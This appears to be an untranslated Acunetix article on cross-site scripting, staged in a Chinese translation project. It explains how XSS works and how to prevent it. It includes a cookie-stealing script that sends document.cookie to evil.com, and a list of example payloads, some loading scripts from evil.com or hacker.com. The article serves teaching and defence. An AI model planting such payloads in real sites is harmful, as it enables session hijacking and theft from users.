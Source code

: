> * 原文地址：[Cross-site Scripting (XSS)](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
> * 原文作者：[Acunetix](https://www.acunetix.com/)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2021/.md](https://github.com/xitu/gold-miner/blob/master/article/2021/.md)
> * 译者：
> * 校对者：

# Cross-site Scripting (XSS)

Cross-site Scripting (XSS) is a client-side code [injection attack](https://www.acunetix.com/blog/articles/injection-attacks/). The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application. The actual attack occurs when the victim visits the web page or web application that executes the malicious code. The web page or web application becomes a vehicle to deliver the malicious script to the user’s browser. Vulnerable vehicles that are commonly used for Cross-site Scripting attacks are forums, message boards, and web pages that allow comments.

A web page or web application is vulnerable to XSS if it uses unsanitized user input in the output that it generates. This user input must then be parsed by the victim’s browser. XSS attacks are possible in VBScript, ActiveX, Flash, and even CSS. However, they are most common in JavaScript, primarily because JavaScript is fundamental to most browsing experiences.

![XSS](https://www.acunetix.com/wp-content/uploads/2019/02/xss.jpg)

## “Isn’t Cross-site Scripting the User’s Problem?”

If an attacker can abuse an XSS vulnerability on a web page to execute arbitrary JavaScript in a user’s browser, the security of that vulnerable website or vulnerable web application and its users has been compromised. XSS is not the user’s problem like any other security vulnerability. If it is affecting your users, it affects you.

Cross-site Scripting may also be used to [deface a website](https://www.acunetix.com/blog/news/full-disclosure-high-profile-websites-xss/) instead of targeting the user. The attacker can use injected scripts to change the content of the website or even redirect the browser to another web page, for example, one that contains malicious code.

## What Can the Attacker Do with JavaScript?

XSS vulnerabilities are perceived as less dangerous than for example [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection/) vulnerabilities. Consequences of the ability to execute JavaScript on a web page may not seem dire at first. Most web browsers run JavaScript in a very tightly controlled environment. JavaScript has limited access to the user’s operating system and the user’s files. However, JavaScript can still be dangerous if misused as part of malicious content:

* Malicious JavaScript has access to all the objects that the rest of the web page has access to. This includes access to the user’s cookies. Cookies are often used to store session tokens. If an attacker can obtain a user’s session cookie, they can impersonate that user, perform actions on behalf of the user, and gain access to the user’s sensitive data.
* JavaScript can read the browser DOM and make arbitrary modifications to it. Luckily, this is only possible within the page where JavaScript is running.
* JavaScript can use the `XMLHttpRequest` object to send HTTP requests with arbitrary content to arbitrary destinations.
* JavaScript in modern browsers can use HTML5 APIs. For example, it can gain access to the user’s geolocation, webcam, microphone, and even specific files from the user’s file system. Most of these APIs require user opt-in, but the attacker can use social engineering to go around that limitation.

The above, in combination with social engineering, allow criminals to pull off advanced attacks including cookie theft, planting trojans, keylogging, phishing, and identity theft. XSS vulnerabilities provide the perfect ground to escalate attacks to more serious ones. Cross-site Scripting can also be used in conjunction with other types of attacks, for example, [Cross-Site Request Forgery (CSRF)](https://www.acunetix.com/websitesecurity/csrf-attacks/).

There are several types of Cross-site Scripting attacks: [stored/persistent XSS](https://www.acunetix.com/blog/articles/persistent-xss/), [reflected/non-persistent XSS](https://www.acunetix.com/blog/articles/non-persistent-xss/), and [DOM-based XSS](https://www.acunetix.com/blog/articles/dom-xss-explained/). You can read more about them in an article titled [Types of XSS](https://www.acunetix.com/websitesecurity/xss/).

## How Cross-site Scripting Works

There are two stages to a typical XSS attack:

1. To run malicious JavaScript code in a victim’s browser, an attacker must first find a way to inject malicious code (payload) into a web page that the victim visits.
2. After that, the victim must visit the web page with the malicious code. If the attack is directed at particular victims, the attacker can use social engineering and/or phishing to send a malicious URL to the victim.

For step one to be possible, the vulnerable website needs to directly include user input in its pages. An attacker can then insert a malicious string that will be used within the web page and treated as source code by the victim’s browser. There are also variants of XSS attacks where the attacker lures the user to visit a URL using social engineering and the payload is part of the link that the user clicks.

The following is a snippet of server-side pseudocode that is used to display the most recent comment on a web page:

```
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

The above script simply takes the latest comment from a database and includes it in an HTML page. It assumes that the comment printed out consists of only text and contains no HTML tags or other code. It is vulnerable to XSS, because an attacker could submit a comment that contains a malicious payload, for example:

```
<script>doSomethingEvil();</script>
```

The web server provides the following HTML code to users that visit this web page:

```
<html>
<h1>Most recent comment</h1>
<script>doSomethingEvil();</script>
</html>
```

When the page loads in the victim’s browser, the attacker’s malicious script executes. Most often, the victim does not realize it and is unable to prevent such an attack.

## Stealing Cookies Using XSS

Criminals often use XSS to steal cookies. This allows them to impersonate the victim. The attacker can send the cookie to their own server in many ways. One of them is to execute the following client-side script in the victim’s browser:

```
<script>
window.location="http://evil.com/?cookie=" + document.cookie
</script>
```

The figure below illustrates a step-by-step walkthrough of a simple XSS attack.

![Cross site scripting](https://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-910x404.png)

1. The attacker injects a payload into the website’s database by submitting a vulnerable form with malicious JavaScript content.
2. The victim requests the web page from the web server.
3. The web server serves the victim’s browser the page with attacker’s payload as part of the HTML body.
4. The victim’s browser executes the malicious script contained in the HTML body. In this case, it sends the victim’s cookie to the attacker’s server.
5. The attacker now simply needs to extract the victim’s cookie when the HTTP request arrives at the server.
6. The attacker can now use the victim’s stolen cookie for impersonation.

To learn more about how XSS attacks are conducted, you can refer to an article titled [A comprehensive tutorial on cross-site scripting](https://excess-xss.com/).

## Cross-site Scripting Attack Vectors

The following is a list of common XSS attack vectors that an attacker could use to compromise the security of a website or web application through an XSS attack. A more extensive list of XSS payload examples is maintained by the OWASP organization: [XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).

### <script> tag

The `<script>` tag is the most straightforward XSS payload. A `script` tag can reference external JavaScript code or you can embed the code within the `script` tag itself.

```
<!-- External script -->
<script src=http://evil.com/xss.js></script>
<!-- Embedded script -->
<script> alert("XSS"); </script>
```

### JavaScript events

JavaScript event attributes such as `onload` and `onerror` can be used in many different tags. This is a very popular XSS attack vector.

```
<!-- onload attribute in the <body> tag -->
<body onload=alert("XSS")>
```

### <body> tag

An XSS payload can be delivered inside the `<body>` by using event attributes (see above) or other more obscure attributes such as the `background` attribute.

```
<!-- background attribute -->
<body background="javascript:alert("XSS")">
```

### <img> tag

Some browsers execute JavaScript found in the `<img>` attributes.

```
<!-- <img> tag XSS -->
<img src="javascript:alert("XSS");">
<!--  tag XSS using lesser-known attributes -->
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
```

### <iframe> tag

The `<iframe>` tag lets you embed another HTML page in the current page. An IFrame may contain JavaScript but JavaScript in the IFrame does not have access to the DOM of the parent page due to the Content Security Policy (CSP) of the browser. However, IFrames are still very effective for pulling off phishing attacks.

```
<!-- <iframe> tag XSS -->
<iframe src="http://evil.com/xss.html">
```

### <input> tag

In some browsers, if the `type` attribute of the `<input>` tag is set to `image`, it can be manipulated to embed a script.

```
<!-- <input> tag XSS -->
<input type="image" src="javascript:alert('XSS');">
```

### <link> tag

The `<link>` tag, which is often used to link to external style sheets, may contain a script.

```
<!-- <link> tag XSS -->
<link rel="stylesheet" href="javascript:alert('XSS');">
```

### <table> tag

The background attribute of the `<table>` and `<td>` tags can be exploited to refer to a script instead of an image.

```
<!-- <table> tag XSS -->
<table background="javascript:alert('XSS')">
<!-- <td> tag XSS -->
<td background="javascript:alert('XSS')">
```

### <div> tag

The `<div>` tag, similar to the <table> and `<td>` tags, can also specify a background and therefore embed a script.

```
<!-- <div> tag XSS -->
<div style="background-image: url(javascript:alert('XSS'))">
<!-- <div> tag XSS -->
<div style="width: expression(alert('XSS'));">
```

### <object> tag

The `<object> tag` can be used to include a script from an external site.

```
<!-- <object> tag XSS -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

## Is Your Website or Web Application Vulnerable to Cross-site Scripting

Cross-site Scripting vulnerabilities are one of the most common web application vulnerabilities. The OWASP organization (Open Web Application Security Project) lists XSS vulnerabilities in their [OWASP Top 10 2017](https://www.acunetix.com/blog/articles/owasp-top-10-2017/) document as the second most prevalent issue.

Fortunately, it’s easy to test if your website or web application is vulnerable to XSS and other vulnerabilities by running an automated web scan using the Acunetix [vulnerability scanner](https://www.acunetix.com/vulnerability-scanner/), which includes a specialized XSS scanner module. [Take a demo](https://www.acunetix.com/web-vulnerability-scanner/demo/) and find out more about running XSS scans against your website or web application. An example of how you can detect blind XSS vulnerabilities with Acunetix is available in the following article: [How to Detect Blind XSS Vulnerabilities](https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/).

## How to Prevent XSS

To keep yourself safe from XSS, you must sanitize your input. Your application code should never output data received as input directly to the browser without checking it for malicious code.

For more details, refer to the following articles: [Preventing XSS Attacks](https://www.acunetix.com/blog/articles/preventing-xss-attacks/) and [How to Prevent DOM-based Cross-site Scripting](https://www.acunetix.com/blog/web-security-zone/how-to-prevent-dom-based-cross-site-scripting/). You can also find useful information in the [XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) maintained by the OWASP organization.

## How to Prevent Cross-site Scripting (XSS) – Generic Tips

Preventing Cross-site Scripting (XSS) is not easy. Specific prevention techniques depend on the subtype of XSS vulnerability, on user input usage context, and on the programming framework. However, there are certain general strategic principles that you should follow to keep your web application safe.

  
![Train and maintain awareness](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step1-150x150.png)

### Step 1: Train and maintain awareness

To keep your web application safe, everyone involved in building the web application must be aware of the risks associated with XSS vulnerabilities. You should provide suitable security training to all your developers, QA staff, DevOps, and SysAdmins. You can start by referring them to this page.

  
![Don’t trust any user input](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step2-150x150.png)

### Step 2: Don’t trust any user input

Treat all user input as untrusted. Any user input that is used as part of HTML output introduces a risk of an XSS. Treat input from authenticated and/or internal users the same way that you treat public input.

  
![Use escaping/encoding](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step3-150x150.png)

### Step 3: Use escaping/encoding

Use an appropriate escaping/encoding technique depending on where user input is to be used: HTML escape, JavaScript escape, CSS escape, URL escape, etc. Use existing libraries for escaping, don’t write your own unless absolutely necessary.

  
![Sanitize HTML](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step4-150x150.png)

### Step 4: Sanitize HTML

If the user input needs to contain HTML, you can’t escape/encode it because it would break valid tags. In such cases, use a trusted and verified library to parse and clean HTML. Choose the library depending on your development language, for example, HtmlSanitizer for .NET or SanitizeHelper for Ruby on Rails.

  
![Set the HttpOnly flag](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step5-150x150.png)

### Step 5: Set the HttpOnly flag

To mitigate the consequences of a possible XSS vulnerability, set the HttpOnly flag for cookies. If you do, such cookies will not be accessible via client-side JavaScript.

  
![Use a Content Security Policy](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step6-150x150.png)

### Step 6: Use a Content Security Policy

To mitigate the consequences of a possible XSS vulnerability, also use a Content Security Policy (CSP). CSP is an HTTP response header that lets you declare the dynamic resources that are allowed to load depending on the request source.

  
![Scan regularly (with Acunetix)](https://www.acunetix.com/wp-content/uploads/2020/03/howto_xss_step7-150x150.png)

### Step 7: Scan regularly (with Acunetix)

XSS vulnerabilities may be introduced by your developers or through external libraries/modules/software. You should regularly scan your web applications using a web vulnerability scanner such as Acunetix. If you use Jenkins, you should install the Acunetix plugin to automatically scan every build.

## Frequently asked questions

#### How does Cross-site Scripting work?

In a Cross-site Scripting attack (XSS), the attacker uses your vulnerable web page to deliver malicious JavaScript to your user. The user’s browser executes this malicious JavaScript on the user’s computer. Note that about one in three websites is vulnerable to Cross-site scripting.

[Learn more about the current state of web security](https://www.acunetix.com/acunetix-web-application-vulnerability-report/).

#### Why is Cross-site Scripting dangerous?

Even though a Cross-site Scripting attack happens in the user’s browser, it may affect your website or web application. For example, an attacker may use it to steal user credentials and log in to your website as that user. If that user is an administrator, the attacker gains control over your website.

[See an example of a dangerous XSS attack from the past](https://www.acunetix.com/blog/articles/dangerous-xss-vulnerability-found-on-youtube-the-vulnerability-explained/)

#### How to discover Cross-site Scripting?

To discover Cross-site Scripting, you may either perform manual penetration testing or first use a vulnerability scanner. If you use a vulnerability scanner, it will save you a lot of time and money because your penetration testers can then focus on more challenging vulnerabilities.

[Find out why it’s good to scan for vulnerabilities before hiring pen testers](https://www.acunetix.com/blog/web-security-zone/penetration-testing-vs-vulnerability-scanning/).

#### How to protect against Cross-site Scripting?

To protect against Cross-site Scripting, you must scan your website or web application regularly or at least after every chance in the code. Then, your developers must correct the code to eliminate the vulnerability. Contrary to popular opinions, web application firewalls do not protect against Cross-site Scripting, they just make the attack more difficult – the vulnerability is still there.

[See what Acunetix Premium can do for you](https://www.acunetix.com/product/premium/).

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
